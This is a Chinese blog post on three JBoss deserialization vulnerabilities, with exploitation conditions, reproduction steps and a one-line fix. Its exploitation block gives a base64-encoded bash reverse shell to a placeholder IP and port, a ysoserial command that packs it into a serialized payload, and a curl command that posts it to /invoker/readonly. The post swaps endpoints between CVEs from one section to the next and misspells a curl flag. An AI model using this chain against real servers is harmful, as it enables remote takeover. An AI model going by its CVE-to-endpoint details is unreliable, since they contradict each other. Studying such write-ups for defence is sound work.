 ```yaml
---
layout: post
title: JBoss 漏洞整理
date: 2022-8-31
categories: blog
tags: [漏洞复现,jboss]
description: jboss


---
```

### JBoss反序列化

RMI数据传输基于反序列化，服务中若实现RMI的调用且具有对象，那么就可能造成反序列化漏洞。JMX服务基于RMI实现，且将凭证作为对象传入

#### **CVE-2015-7501漏洞原理**

JBoss中的`/invoker/JMXInvokerServlet`请求中读取用户传入的对象,可以任意代码执行

#### **CVE-2017-12149漏洞原理**

JBoss的`HttpInvoker`组件中的`ReadOnlyAccessFilter`过滤器没有安全检查就进行反序列化

#### **CVE-2017-7504漏洞原理**

JBoss AS 4.x及之前版本中，JbossMQ实现过程的JMS over HTTP Invocation Layer的HTTPServerILServlet.java文件存在反序列化漏洞

### 利用条件

1. /invoker/readonly目录存在且能访问
2. 版本号为5.x/6.x
2. `/invoker/JMXInvokerServlet(JMXInvokerServlet漏洞指纹)`&`/invoker/readonly(jboss 6.0反序列化漏洞指纹)`

### **漏洞复现**

`只能通过链式调用来执行java语句，执行的语句必须可以写到一行里面，而且还不能带分号`
ysoserial.jar包的CommonsCollections5链把要执行的反弹shell生成一个ser文件  
访问`/invoker/readonly`对三个漏洞均适用

#### CVE-2015-7501

漏洞存在`/jbossmq-httpil/HTTPServerILServlet`中，将payload作为`POST Body`发送至`/jbossmq-httpil/HTTPServerILServlet`即可

#### CVE-2017-12149

漏洞存在`/invoker/readonly`中，将payload作为`POST Body`发送至`/invoker/readonly`即可

#### CVE-2017-7504

漏洞存在`/invoker/JMXInvokerServlet`中，将payload作为`POST Body`发送至`JMXInvokerServlet-deserialization`即可

#### 漏洞利用

```shell
#利用runtime-exec-payloads生成代码
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC9JUC9QT1JUIDA+JjE=}|{base64,-d}|{bash,-i}
#利用ysoserial生成序列化数据
java -jar ysoserial.jar CommonsCollections5 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC9JUC9QT1JUIDA+JjE=}|{base64,-d}|{bash,-i}" > test.ser
#利用curl发送数据利用
curl IP:PORT/invoker/readonly --databinary @test.ser
```

### **漏洞修复**

禁止将JBoss的**JMXInvokerServlet**接口（默认8080）以及JBoss Web Console对外网开放
